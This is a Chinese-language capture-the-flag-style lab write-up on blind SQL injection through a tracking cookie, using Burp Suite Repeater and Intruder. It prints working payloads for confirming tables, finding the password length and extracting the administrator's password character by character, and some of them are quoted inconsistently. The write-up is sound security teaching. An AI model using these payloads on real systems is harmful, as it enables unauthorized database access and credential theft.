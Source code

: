 # 题意
![](pic/4-1.png)
该实验包含盲注漏洞。数据库中包含users表，该表含有username和password两列。需要利用该漏洞找到administrator的密码并且登录。
# 解题思路
step1:修改cookie

用Burpsuite的repeater组件，可以很方便地修改cookie并查看返回结果

修改前：
![](pic/ckbf.png)

将cookie改成：
```
TrackingId=xyz
```

![](pic/ckaf.png)

可以看到welcome back不见了。

再将cookie改成：
```
TrackingId=jbN5M5L2Dh6kaFY5' AND '1'='1 (jbN5M5L2Dh6kaFY5是TrackingId的初始值)
```
可以看到welcome back又出现了。


step2:猜解信息
确定user表存在
```
TrackingId=jbN5M5L2Dh6kaFY5' AND (SELECT 'a' FROM users LIMIT 1) = 'a'--
```
该语句并没有在数据库中取得数据，如果不存在users表的话就会报错，否则不会报错。

猜解administrator用户名

```
TrackingId=jbN5M5L2Dh6kaFY5 AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

### Intruder的使用
猜解密码长度

```
TrackingId=jbN5M5L2Dh6kaFY5 AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>1)='a
```
![](pic/Intruder1.png)


![](pic/intruderclear.png)


![](pic/intruderadd.png)

![](pic/payloadset.png)

![](pic/res.png)



猜解密码全文
```
TrackingId=bmrduZ4GewMJPzUP' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
![](pic/2set-1.png)


![](pic/2set2.png)


![](pic/2set3.png)


![](pic/2set-res.png)

# 知识点
What is blind SQL injection?
Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

With blind SQL injection vulnerabilities, many techniques such as UNION attacks, are not effective because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.
## 盲注
盲注就是应用程序存在SQL注入漏洞，但是其http响应中不包含相关SQL语句的结果和数据库报错的细节。因此例如联合注入等技术对于盲注就不是很有效，因为这些技术依赖于应用程序对注入语句的响应结果。

## 触发条件响应来利用盲注
假设一个应用程序使用cookie来进行身份验证。给应用程序的请求中包含如下cookie：
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
当应用程序收到包含该cookie的请求时，会通过如下sql语句判断这是不是一个合法用户的请求：
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
该语句是有注入点的，但是没有回显。但是，应用程序仍然会根据语句是否有返回数据而有不同的行为。实验中的现象是，如果成功有数据返回，页面上会显示“Welcome Back”信息。该行为足够用条件响应来利用盲注并获取信息了。假设带有如下TrackId的cookie的两个请求：
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

第一个请求会显示“Welcome back”，第二个不会。这就让攻击者能够用一次条件响应确定数据中的1bit信息。


例如，假设有一个用户表User有两列Username和Password，有一个用户是administrator。攻击者输入如下payload：
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

如果应用程序返回“Welcome back”，说明密码的第一位大于m。以此类推。

总的来说，conditional response类似于跟应用程序进行问答，应用程序只会回答是或不是。攻击者通过这些是或不是来对数据库中的信息进行猜解。